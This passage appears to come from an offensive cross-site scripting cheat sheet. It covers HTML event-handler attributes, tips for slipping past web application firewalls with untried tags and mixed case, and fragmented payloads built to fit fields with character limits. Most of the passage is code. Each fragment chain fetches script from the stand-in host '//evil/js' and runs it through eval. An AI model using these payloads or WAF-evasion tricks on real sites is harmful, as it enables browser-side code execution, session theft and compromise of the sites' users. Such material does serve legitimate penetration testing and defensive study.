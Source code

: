 | oninput       | input type="password", input type="search", input type="text", textarea |
| onsearch      | input type="search" |
| onselect      | input type="file", input type="password", input type="text", textarea |
| onreset       | form |
| onsubmit      | form |

*NOTE*

* Some WAFs block only some html tags (e.g. `<script>`), but not other tags, so don't give up after trying a few that got rejected.
* Some WAFs do a poor job and fail to block HTML tags or attributes when they are capitalized (or mixed case). Give that a try.
* Many event handlers require user action. See more at `https://www.w3schools.com/TAGS/ev_`**_event_**`.asp`

# Dealing with limited space

The below usecases are for character limit that doesn't allow the full payload in a single injection. Each line is a separate payload that requires wrapping to put it in a JS context (e.g. `<script>`**_payload_**`</script>`).

## Usecase: character limit is &gt;= 20 (not including wrapping)

* *Payloads order on the page doesn't matter.*

```
T=(o,f)=>o.then(f)
X=eval
Y='//evil/js'
Z=r=>T(r.text(),X)
J=_=>T(fetch(Y),Z)
setTimeout(_=>J(),9)
```

## Usecase: character limit is &gt;= 13 (not including wrapping)

* *Payloads order on page __does__ matter.*

```
p=Promise
P=p.prototype
t=P.then
tc=t.call
T=tc.bind(t)
r=Response
R=r.prototype
z=R.text
zc=z.call
Z=zc.bind(z)
E=eval
j='//evil/js'
J=fetch(j)
T(T(J,Z),E)
```
